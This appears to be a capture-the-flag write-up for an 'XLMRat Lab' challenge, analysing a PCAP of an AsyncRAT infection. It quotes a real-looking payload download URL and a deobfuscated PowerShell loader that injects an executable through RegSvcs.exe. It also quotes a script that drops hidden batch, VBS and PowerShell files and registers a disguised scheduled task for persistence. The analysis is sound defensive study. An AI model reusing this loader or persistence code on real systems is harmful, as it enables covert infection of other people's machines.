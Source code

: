 # XLMRat Lab

![photo1](https://miro.medium.com/v2/resize:fit:720/format:webp/1*suSjTi5JKL8Td5be0_0NIg.png)

## Scenario

A compromised machine has been flagged due to suspicious network traffic. Your task is to analyze the PCAP file to determine the attack method, identify any malicious payloads, and trace the timeline of events. Focus on how the attacker gained access, what tools or techniques were used, and how the malware operated post-compromise.

## Let's move on to the questions:

> The attacker successfully executed a command to download the first stage of the malware. What is the URL from which the first malware stage was installed?

We begin by opening the .pcap file in Wireshark (attached with the challenge). To identify the target URL, we filter for HTTP requests. By reviewing the hint provided with the answer, it became clear which specific request to focus on. Tracing that request revealed the complete URL path.

![photo2](https://miro.medium.com/v2/resize:fit:720/format:webp/1*t4TNpj180I0Yfw2Q5Ad8nw.png)

**http://45.126.209.4:222/mdm.jpg**

> 2. Which hosting provider owns the associated IP address?

![photo3](https://miro.medium.com/v2/resize:fit:720/format:webp/1*Xs-x8vGGa2UMFke73q7-TQ.png)

**ReliableSite.net**

> By analyzing the malicious scripts, two payloads were identified: a loader and a secondary executable. What is the SHA256 of the malware executable?

So I need to extract the malware from file.pcap.

![photo4](https://miro.medium.com/v2/resize:fit:720/format:webp/1*Go3XWu_tOTwADnNrqZfRwg.png)

Copy the “hexString_bbb” in cyberchef with the filter: From hex. Save the Output (file.exe).

![photo5](https://miro.medium.com/v2/resize:fit:720/format:webp/1*q0ANRVaST8Thd3zGBa05PQ.png)

So, use the command: 

```bash 
sha256sum file.exe # 1eb7b02e18f67420f42b1d94e74f3b6289d92672a0fb1786c30c03d68e81d798
```

**1eb7b02e18f67420f42b1d94e74f3b6289d92672a0fb1786c30c03d68e81d798**

> 4. What is the malware family label based on Alibaba?

Ok, now we need to use **VirusTotal**. Upload the malware to the site…

![photo6](https://miro.medium.com/v2/resize:fit:720/format:webp/1*koI8r4yzF-pKwiZcurXh_w.png)

**asyncrat**

> 5. What is the timestamp of the malware’s creation?

Go to section **details**:

![photo](https://miro.medium.com/v2/resize:fit:720/format:webp/1*PerUA4SxsWlbbxamyi6JGA.png)

**2023–10–30 15:08**

> 6. Which LOLBin is leveraged for stealthy process execution in this script? Provide the full path.

Under the hex of the malware, there’s some interesting code. Just like in the code, I remove the # and get the response.

```bash
Sleep 5
[Byte[]] $NKbb = $hexString_bbb -split '_' | ForEach-Object { [byte]([convert]::ToInt32($_, 16)) }
[Byte[]] $pe = $hexString_pe -split '_' | ForEach-Object { [byte]([convert]::ToInt32($_, 16)) }

Sleep 5
$HM = 'L###############o################a#d' -replace '#', ''
$Fu = [Reflection.Assembly]::$HM($pe)


$NK = $Fu.GetType('N#ew#PE#2.P#E'-replace  '#', '')
$MZ = $NK.GetMethod('Execute')
$NA = 'C:\W#######indow############s\Mi####cr'-replace  '#', ''
$AC = $NA + 'osof#####t.NET\Fra###mework\v4.0.303###19\R##egSvc#####s.exe'-replace  '#', ''
$VA = @($AC, $NKbb)

$CM = 'In#################vo################ke'-replace '#', ''
$EY = $MZ.$CM($null, [object[]] $VA)
```

**C:\Windows\Microsoft.NET\Framework\v4.0.30319\RegSvcs.exe**

> 7. The script is designed to drop several files. List the names of the files dropped by the script.

```bash
$Content = @'@e%Conted%%Conted% offset "ps=powershell.exe"set "Contedms=-NoProfile -WindowStyle Hidden -ExecutionPolicy Bypass"set "cmd=C:\Users\Public\Conted.ps1"%ps% %Contedms% -Command "& '%cmd%'"exit /b'@[IO.File]::WriteAllText("C:\Users\Public\Conted.bat", $Content)$Content = @'on error resume nextFunction CreateWshShellObj()Dim objNameobjName = "WScript.Shell"Set CreateWshShellObj = CreateObject(objName)End FunctionFunction GetFilePath()Dim filePathfilePath = "C:\Users\Public\Conted.bat"GetFilePath = filePathEnd FunctionFunction GetVisibilitySetting()Dim visibilityvisibility = 0GetVisibilitySetting = visibilityEnd FunctionFunction RunFile(wshShellObj, filePath, visibility)wshShellObj.Run filePath, visibilityEnd FunctionSet wshShellObj = CreateWshShellObj()filePath = GetFilePath()visibility = GetVisibilitySetting()Call RunFile(wshShellObj, filePath, visibility)'@[IO.File]::WriteAllText("C:\Users\Public\Conted.vbs", $Content)Sleep 2$scheduler = New-Object -ComObject Schedule.Service$scheduler.Connect()$taskDefinition = $scheduler.NewTask(0)$taskDefinition.RegistrationInfo.Description = "Runs a script every 2 minutes"$taskDefinition.Settings.Enabled = $true$taskDefinition.Settings.DisallowStartIfOnBatteries = $false$trigger = $taskDefinition.Triggers.Create(1)  # 1 = TimeTrigger$trigger.StartBoundary = [DateTime]::Now.ToString("yyyy-MM-ddTHH:mm:ss")$trigger.Repetition.Interval = "PT2M"# .......... ...... Action$action = $taskDefinition.Actions.Create(0)  # 0 = ExecAction$action.Path = "C:\Users\Public\Conted.vbs"$taskFolder = $scheduler.GetFolder("\")$taskFolder.RegisterTaskDefinition("Update Edge", $taskDefinition, 6, $null, $null, 3)
```

**Conted.vbs, Conted.ps1, Conted.bat**